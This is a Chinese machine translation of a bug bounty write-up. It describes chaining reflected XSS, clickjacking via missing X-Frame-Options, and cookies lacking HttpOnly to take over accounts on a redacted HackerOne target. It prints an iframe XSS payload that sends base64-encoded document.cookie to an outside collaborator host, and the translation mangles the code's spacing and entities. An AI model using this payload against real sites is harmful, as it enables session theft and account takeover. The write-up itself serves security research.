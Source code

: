 # 低级错误和错误配置链导致帐户被接管

> 原文：<https://infosecwriteups.com/chain-of-low-level-bugs-and-misconfigurations-leads-to-account-takeover-de248fc4e481?source=collection_archive---------2----------------------->

你好，猎人们。我要告诉你一个关于我最近发现的故事，在这个故事中，我能够将导致我**接管**任何账户的几个错误配置串联起来。我将把这个网站称为**“rededited . com”**，因为它是 HackerOne 上的一个私人程序。让我们开始吧。

![](img/50e0127398979a7ac8b8a1c9ae21f234.png)

# 步骤 1 —反射 XSS

我在我的目标的子域中导航，在深入应用程序之前寻找有趣的功能。过了一会儿，我偶然发现了一个页面，可以让我通过标题搜索一篇博客文章。简而言之，这是一个经典的搜索框。我注意到，每次我在搜索框中输入一些文本，它都会以 path 的形式反映到 URL:

> sub.redacted.com/search/{TEXT_HERE}

正如我们大多数人会做的那样，我立即扔掉了几个 XSS 有效载荷，但没有运气，我的有效载荷正在被消毒。这似乎是一个定制的旁路系统，没有任何晶圆的迹象。这就是为什么我决定深入研究，并试图绕过消毒。经过多次试验和错误，当我把**小于号'< '** 替换成它的 HTML 实体形式也就是**&lt；**我的有效载荷成功发射。

![](img/10966ca38876d31714c48e5847ceeacc.png)

XSS 有效载荷成功发射

# 第 2 步—单击劫持

一切似乎都运转得天衣无缝，对吗？不完全是。我期望当我点击链接时有效负载会被触发，但是它没有。搜索文本就在我输入的地方，但它没有被触发。受害者必须手动点击“搜索”按钮才能发射有效载荷。我在 Burp Suite 中查看了我的日志，发现有一个适当的 CSRF 保护机制。我尝试了很多方法试图绕过它，但我无法成功。在我的日志中来回查看时，我注意到**“X-Frame-Options”**丢失了，这意味着子域容易被点击劫持，这意味着该站点可以嵌入到任何带有 iframe 的站点中。

# 步骤 3 —提高影响力并执行 ATO

一切都很好，但影响力不够高。在考虑提高影响的方法时，我意识到 cookies 缺少 HttpOnly 标志，这意味着可以使用 JavaScript 访问它们。

![](img/a577d08db3937f8283216da55c6406bc.png)

愉快的

我用它将受害者的 cookie 作为查询参数附加到 URL 的末尾。更多细节见下文。我在我的网站上托管的最终有效载荷看起来差不多是这样的:

> <html>
> iframe src =**https://sub.redacted.com/search/&lt；% 20 img % 20 src = x % 20 on error = location . href = % 22 https:% 26 sol；% 26sol{ COLLABORATOR _ URL } % 26sol% 26questq = % 22+btoa(document . cookie)；% 26gt**>
> </iframe>
> </html>
> 
> 以上 URL 的解码版本:
> **https://sub.redacted.com/search/<img src = x on error = location . href = "**[**【COLLABORATOR _ URL }/？q =**](https://d79c170ccad4ecc884e9f75146461d2d.m.pipedream.net/?q=)**"+btoa(document . cookie)；>**

不过，这一步需要详细说明。

## btoa()是什么？

在 JavaScript 中，btoa()基本上是一种用 base64 编码字符串的方法。我为什么需要这个？嗯，我没打算这么做。在飞行中，我意识到我看不到所有的 cookie，因为 cookie 中的一些字符被过滤了。这样，当我检查我的服务器日志时，我能够检索 base64 编码形式的所有 cookies。

## 执行接管

我不打算详细解释如何进行点击劫持攻击。理解让用户点击一个按钮是小菜一碟就足够了。当受害者点击按钮时，我们得到 base64 值。

现在怎么办？我是否只需解码该值，用我的 cookies 替换它，工作就完成了？的确如此。

![](img/686d320759217f9f4ad01776c4d86d6e.png)

干杯。

# 外卖食品

*   当您设法找到一个反射的 XSS 时，尝试通过将它与其他错误(如 CSRF、缓存中毒等)联系起来来升级严重性。)
*   低级错误和错误配置可能会在增加影响方面发挥关键作用，即使它们在报告时几乎没有价值。不要忽视他们！

这是我的第一篇文章。我希望这能对你有所帮助。

你可以在推特上关注我。 [@pleorqy](https://twitter.com/pleorqy)